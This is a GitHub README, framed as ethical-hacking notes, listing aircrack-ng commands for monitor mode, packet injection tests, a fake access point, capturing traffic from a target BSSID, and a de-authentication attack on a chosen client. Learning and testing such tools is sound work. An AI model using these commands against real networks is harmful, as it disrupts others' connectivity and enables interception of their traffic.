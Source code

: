 # These commands are works only on linux based OS system
## An external Network Adapter is required, Your Network Adapter must support `monitor mode`, `packet injection mode`

### Here my network interface name is `wlan1`, use these commands `iwconfig` or `ifconfig` to check your network interface name, your network interface name may be diffrent use accordingly.
## Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)

First you need to switch root user `sudo su`

---
# Network Manager Commands
## Check Status of Network Manager
```
systemctl status NetworkManager
```
## kill network manager
```
airmon-ng check kill
```
## Enable Network Manager
```
service NetworkManager start
```
## Restart Network Manager
```
systemctl restart NetworkManager
```
---
# Network Adapter Testing Commands
## Enable Monitor Mode
```
airmon-ng start wlan1
```
## Disable Monitor Mode
```
airmon-ng stop wlan1
```
## Packet Injection test
```
aireplay-ng --test wlan1
```
## Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
# Packet Sniffing
### sniff network around us `2.4 GHz`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### capture data into a file `fileName`
```
airodump-ng --bssid @1 --channel @2 --write fileName wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
# DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client


